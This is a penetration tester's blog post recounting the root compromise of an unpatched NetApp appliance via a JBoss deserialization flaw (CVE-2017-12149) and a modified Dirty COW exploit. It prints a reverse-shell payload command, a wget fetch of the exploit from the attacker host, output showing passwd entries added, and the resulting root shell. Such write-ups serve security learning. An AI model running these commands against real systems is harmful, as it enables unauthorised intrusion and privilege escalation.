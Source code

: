 ```yaml
---
layout: post
title: Deserialized Double Dirty
categories: [pentest, exploits]
tags: [java, deserialization, jboss, dirtycow, privilege escalation]
comments: true
---
```

Recently I was able to fully root an NetApp OnCommand Performance Manager appliance using a Java Deserialization vulnerability and Dirty Cow.  

Disclaimer: NetApp has security patches for both of these issues. This appliance simply had not been updated.

Late last year I ran into a device that was vulnerable to [CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149) and was able to get a shell on that device. After using [Ysoserial](https://github.com/frohoff/ysoserial) and loading in the payloads in Burp Repeater (pro tip from @hateshaped: right click -> paste from file), I wanted to automate the building and delivery of the payload. I knew @byt3bl33d3r had a quite a few of these scripts on [Coalfire Lab's Github](https://github.com/Coalfire-Research/java-deserialization-exploits) so I modified a similar JBoss script for this specific vulnerability. The PoC can be found [here](https://github.com/jreppiks/CVE-2017-12149.git)

So when this popped up again, I was super excited. The system had a "modern" version of netcat, so ```nc -e``` worked just fine to grab a shell. 
```
python jdspoc.py --proto http --ysoserial-path ./ysoserial.jar 10.10.193.110:80 'nc -ne /bin/bash 192.168.3.230 8000'
```
This time, however, the admin (or perhaps NetApp) had done something right, the application was not running as root, but a low privilege user. 
```
 nc -lvp 8000
listening on [any] 8000 ...
10.10.193.110: inverse host lookup failed: Unknown host
connect to [192.168.3.230] from (UNKNOWN) [10.10.193.110] 34503
id
uid=998(jboss) gid=42(shadow) groups=1002(jboss),42(shadow)
```
While doing some enumeration, uname came back with the following:
```
Debian 3.2.68-1+deb7u1
```
Ripe for Dirty COW! The Dirty COW exploit I'm most familiar with is [Firefart's exploit](https://github.com/FireFart/dirtycow.git). It's stable and it works. I ran the exploit and it created the firefart user with no issues, but this is where it got interesting.

Typical "firefartage" one does ```su - firefart``` or ```ssh firefart@<ip>```. However, I could not upgrade my shell to a TTY shell (I'm sure I'm saying that wrong...). I could not ```su``` since I didn't have a "real" terminal. I tried all the usual tricks (e.g. [Pentest Monkey's awesomeness](http://pentestmonkey.net/blog/post-exploitation-without-a-tty) and [Ropnop's great blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) but not even stackoverflow could help me out!

 
  
SSH was also a bust. The ssh server on the system was set up so only members of the maintenance group could log in and it could not be a root user. I decided to modify Firefart's code and make the firefart user an non-root user and add them to the maintenace group. I ran the exploit and it created the user! I was now able to ssh into the device. I was still not root, though. So, I ran the original exploit again thinking I could then just ```su - firefart```. When I tried that, it failed with an error: ```I have no name!``` 

Even, running the script twice with two different usernames ended in the same error. I decided I needed to modify the exploit code again to add both users at the same time. You can grab the modified code I lovingly named doubledirty [here](https://github.com/jreppiks/doubledirty.git) Please be kind, I am not a developer, but it complied and ran on the very first time, that has to count for something, right?!

I grabbed the new exploit code and ran it on the system:
```
jboss@netapp:/tmp$ wget 192.168.3.230:8080/doubledirty
wget 192.168.3.230:8080/doubledirty
--2019-08-16 14:28:23--  http://192.168.3.230:8080/doubledirty
Connecting to 192.168.3.230:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18200 (18K) [application/octet-stream]
Saving to: `doubledirty'

     0K .......... .......                                    100% 30.4M=0.001s

2019-08-16 14:28:23 (30.4 MB/s) - `doubledirty' saved [18200/18200]

jboss@netapp:/tmp$ ls -ltr
ls -ltr
total 696
drwx------ 2 root  root          4096 Feb  8  2016 vmware-root
-rw-r--r-- 1 root  root           654 Feb  8  2016 netapp-opm-postinst.log
-rw-r--r-- 1 jboss shadow       18200 Aug 16 14:27 doubledirty
jboss@netapp:/tmp$ chmod +x doubledirty
chmod +x doubledirty
jboss@netapp:/tmp$ ./doubledirty
./doubledirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:

jreppiksroot:2fe7ebe7ff742bf25fd67824bfed403a:0:0:pwned:/root:/bin/bash
jreppiks:2fe7ebe7ff742bf25fd67824bfed403a:14:1000:pwned:/root:/bin/bash
```

I was able to ssh in as the non-priveledged user and then su - to the root user!
```
# ssh jreppiks@10.10.193.110
Password: 
Linux netapp 3.2.0-4-amd64 #1 SMP Debian 3.2.68-1+deb7u1 x86_64
Last login: Fri Aug 16 11:48:49 2019 from 192.168.3.230
Could not chdir to home directory /root: Permission denied
-bash: /root/.bash_profile: Permission denied
jreppiks@netapp:/$ id
uid=14(jreppiks) gid=1000(maintenance) groups=1000(maintenance)
jreppiks@netapp:/$ su - jreppiksroot
Password: 
jreppiksroot@netapp:~# id
uid=0(jreppiksroot) gid=0(root) groups=0(root)
jreppiksroot@netapp:~# 
```
